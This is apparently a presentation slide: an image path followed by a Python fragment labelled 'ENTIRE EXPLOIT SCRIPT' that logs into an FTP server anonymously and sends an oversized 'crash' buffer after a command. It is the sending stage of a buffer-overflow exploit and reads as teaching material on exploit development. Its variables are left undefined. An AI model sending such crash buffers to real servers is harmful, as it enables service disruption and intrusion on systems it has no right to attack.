

# ENTIRE EXPLOIT SCRIPT
print(f'[*] Sending {repr(len(crash))} {command } byte crash...')
sock.send('USER anonymous\r\n'.encode('utf-8'))
sock.recv(1024)
sock.send('PASS\r\n'.encode('utf-8'))
sock.recv(1024)
sock.send(f'{command} {crash}\r\n'.encode('utf-8'))
time.sleep(4)